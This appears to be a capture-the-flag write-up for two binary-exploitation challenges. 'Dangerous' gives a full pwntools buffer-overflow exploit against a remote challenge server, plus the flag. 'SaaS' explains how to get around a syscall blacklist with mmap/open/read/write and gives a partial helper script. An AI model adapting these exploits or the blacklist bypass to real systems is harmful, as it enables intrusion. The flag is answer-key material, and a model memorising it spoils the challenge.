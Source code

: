 ## Dangerous

This is a basic bufferoverflow challenge. Simply overwrite return value with `0x401312`, it's the function that print out the flag.

```python
#!/usr/bin/python3
from pwn import *

p = 0
flag = 0x401312

def main():
    global p
#   p = process('./dangerous')
    p = remote('jh2i.com', 50011)
    payload = 39*b'A'+b'B'*458 + p64(flag)
    p.sendlineafter('?\n', payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

Flag: `flag{legend_of_zelda_overflow_of_time}`

## SaaS

The program let us call any syscall function we want, but some are blacklisted.

List of the functions that are not permitted to call: 

- execve (59)
- fork (57)
- clone (56)
- kill (62)
- ptrace (101)
- tkill (200)

So, what I did is:

- Allocate a memory block with `mmap`.
- `open` `flag.txt`.
- `read` the file, save to the buffer at step 1.
- `write` the content to `stdout`.

```python
#!/usr/bin/python3
from pwn import *

p = 0

def sc(rax,rdi=0,rsi=0,rdx=0,r10=0,r9=0,r8=0,s=''):
    p.sendlineafter('rax (decimal): ', str(rax))
    p.sendlineafter('rdi (decimal): ', str(rdi))
    p.sendlineafter('rsi (decimal): ', str(rsi))
    p.sendlineafter('rdx (decimal): ', str(rdx))
    p.sendlineafter('r10 (decimal): ', str(r10))
    p.sendlineafter('r9 (decimal): ', str(r9))
    p.sendlineafter('r8 (decimal): ', str(r8))
    if rax == 0:
        p.send(s)
    print(p.recvuntil('Rax: 0x').decode())
    r = p.recvline()[:-1].decode()
    return int(r, 16)

```